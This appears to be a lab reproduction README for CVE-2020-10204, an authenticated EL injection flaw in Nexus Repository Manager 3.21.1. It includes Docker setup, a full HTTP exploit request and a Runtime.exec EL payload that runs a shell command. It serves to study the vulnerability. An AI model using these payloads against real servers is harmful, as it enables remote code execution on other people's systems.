


# Nexus Repository Manager 3 Authenticated Remote Code Execution (CVE-2020-10204)

[中文版本(Chinese version)](README.zh-cn.md)

Nexus Repository Manager is a repository manager that organizes, stores and distributes artifacts needed for development.

In the version <= 3.21.1, a EL injection vulnerability has been discovered that allows for an attacker with an administrative account on Nexus Repository to execute arbitrary code by crafting a malicious request to Nexus Repository. This issue is patch bypass of CVE-2018-16621.

References:

- https://support.sonatype.com/hc/en-us/articles/360044356194-CVE-2020-10204-Nexus-Repository-Manager-3-Remote-Code-Execution-2020-03-31
- https://github.com/threedr3am/learnjavabug/blob/93d57c4283/nexus/CVE-2020-10204/README.md
- https://github.com/jas502n/CVE-2020-10199

## Vulnerable environment

Execute following command to start a Nexus Repository Manager version 3.21.1:

```
docker compose up -d
```

After the server is started, browse `http://your-ip:8081` to see the home page of Nexus. Login the admin panel with administrator account `admin:admin` and finish the initialize wizard.

## Exploit

Copy your cookie and CSRF token then send following request:

```
POST /service/extdirect HTTP/1.1
Host: your-ip
Content-Length: 223
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: [csrf-token]
Content-Type: application/json
Accept: */*
Origin: http://192.168.1.3:8081
Referer: http://192.168.1.3:8081/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: NX-ANTI-CSRF-TOKEN=[csrf-token]; NXSESSIONID=[sessionid]
Connection: close

{"action":"coreui_User","method":"update","data":[{"userId":"admin","version":"2","firstName":"admin","lastName":"User","email":"admin@example.org","status":"active","roles":["nxadmin$\\B{233*233}"]}],"type":"rpc","tid":11}
```

As you can see, EL expression `233*233` is executed:



Refer to <https://github.com/jas502n/CVE-2020-10199>, use EL expression payload `$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/success')}` to execute command `touch /tmp/success`:


